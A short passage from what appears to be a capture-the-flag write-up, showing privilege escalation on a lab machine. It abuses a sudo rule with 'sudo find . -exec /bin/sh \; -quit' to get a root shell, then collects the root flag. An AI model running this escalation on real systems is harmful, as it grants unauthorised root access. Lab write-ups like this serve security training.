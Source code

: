 We are going to use this one.

![system](./Screenshots/basesystem3.png)

Type:

```
sudo find . -exec /bin/sh \; -quit
```

![system](./Screenshots/basesystem4.png)

We are `root`.

### Get the root flag

The `root` flag is in the `/root` directory.

![flag](./Screenshots/baserootflag.png)
